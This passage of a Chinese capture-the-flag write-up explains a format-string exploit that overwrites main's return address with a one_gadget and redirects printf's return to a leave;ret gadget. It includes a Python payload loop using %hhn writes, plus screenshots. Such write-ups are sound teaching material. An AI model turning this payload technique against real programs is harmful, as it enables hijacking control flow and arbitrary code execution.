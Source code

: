 然后又会回到main函数开头，所以我们需要利用格式化字符串修改程序不跳转到这里，而是直接结束main函数

在执行完格式化字符串所在的函数后，执行的下一条指令如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01615232cbfc115ba4.png)

在栈中是返回地址

[![](https://p2.ssl.qhimg.com/t01a32f464f3c6f9cd8.png)](https://p2.ssl.qhimg.com/t01a32f464f3c6f9cd8.png)

我们将返回地址的最后两位修改为leave ret的后两位，使其跳转到leave ret

所以一共分两步，第一步修改main函数返回地址为onegadget，第二步修改printf函数返回地址为leave ret

```
for i in range(6):
  num=(onegadget&gt;&gt;(8*i))&amp;0xff
  num-=27
  if num&gt;write_size&amp;0xff:
    payload+='%`{`0`}`c%`{`1`}`$hhn'.format(num-(write_size&amp;0xff),offset+i)
    write_size+=num-(write_size&amp;0xff)
  else:
    payload+='%`{`0`}`c%`{`1`}`$hhn'.format((0x100-(write_size&amp;0xff))+num,offset+i)
    write_size+=(0x100-(write_size&amp;0xff))+num
payload=payload.ljust(0x60-13,'a')
for i in range(6):
  payload+=p64(main_ret+i)
siri(payload)
siri('aaaa')
payload='%'+str(0xc1-27)+'c%61$hhn'
payload=payload.ljust(0x5f-13,'a')
payload+=p64(rip)
siri(payload)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01c7d4f994b34cf7c5.png)

第一次printf后main函数返回地址已经修改为了onegadget

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d63a7458d6560549.png)

第二次printf后pintf函数返回地址被修改成功

[![](https://p3.ssl.qhimg.com/t015a86d41691048384.png)](https://p3.ssl.qhimg.com/t015a86d41691048384.png)

直接返回执行onegadget



## 0x6.SWPUCTF_2019_login
